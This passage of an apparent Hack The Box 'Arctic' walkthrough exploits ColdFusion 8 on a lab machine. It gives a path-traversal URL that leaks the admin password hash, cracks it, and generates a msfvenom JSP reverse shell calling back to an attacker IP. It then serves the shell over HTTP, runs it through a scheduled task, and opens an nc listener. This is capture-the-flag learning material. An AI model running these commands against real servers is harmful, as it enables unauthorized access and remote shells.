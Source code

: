 We can try this on the box with this:

```text
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

This gives us:

![arctic-coldfusion](/assets/images/2020-08-02-22-06-03.png)

The password looks hashed, let's use hash-identifier to find out how:

```text
root@kali:~/htb/machines/arctic# hash-identifier
--------------------------------------------------------------------
HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Possible Hashs:
[+]  SHA-1
[+]  MySQL5 - SHA-1(SHA-1($pass))
```

We can try cracking it [here](https://hashes.com/en/decrypt/hash), which gives me:

![hashkiller-result](/assets/images/2020-08-02-22-07-04.png)

We can create a java payload using msfvenom:

```text
root@kali:~/htb/machines/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f raw > shell.jsp
Payload size: 1497 bytes
```

Now start an http server in this folder so we can get to the file:

```text
python -m SimpleHTTPServer 80
```

Go back to login page, use admin and happyday to get in. Then go to Debugging & Logging then Scheduled Tasks:

![coldfusion-debugging](/assets/images/2020-08-02-22-07-35.png)

Create a new task:

![coldfusion-create-task](/assets/images/2020-08-02-22-08-00.png)

Once created need to click the left green button to run:

![coldfusion-run-task](/assets/images/2020-08-02-22-08-26.png)

Start a nc listener on port 4444 to catch the reverse shell:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4444
listening on [any] 4444 ...
```
